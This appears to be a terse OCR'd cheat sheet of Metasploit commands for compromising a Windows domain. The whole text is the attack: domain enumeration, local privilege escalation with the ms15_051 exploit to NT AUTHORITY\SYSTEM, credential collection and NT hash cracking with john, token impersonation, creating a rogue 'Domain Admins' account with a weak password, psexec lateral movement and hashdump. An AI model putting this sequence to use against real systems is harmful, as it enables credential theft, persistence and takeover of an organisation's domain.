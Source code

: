 #generate payload
#initial access
sessions -i 1
sysinfo
background
use post/windows/gather/enum_domain
use post/windows/gather/enum_domain_group_users
shell
net groups "domain admins" /domain
shell
wmic qfe list
use exploit/windows/local/ms15_051_client_copy_image
info
exploit
getuid
NT authority\SYSTEM
use post/windows/gather/credentials/credential_collector
info
creds
grab hashes into text files
cat hashes.txt
john --format:NT --wordlist=[filename].txt hashes.txt
#crack local administrator password
impersonate_token
impersonate_token of another logged high priviledged user
shell
net user evilboss password123 /add /domain
net group "Domain Admins" evilboss /add /domain
exploit/windows/smb/psexec
EXPLOIT
sysinfo -> x64 shell
hashdump

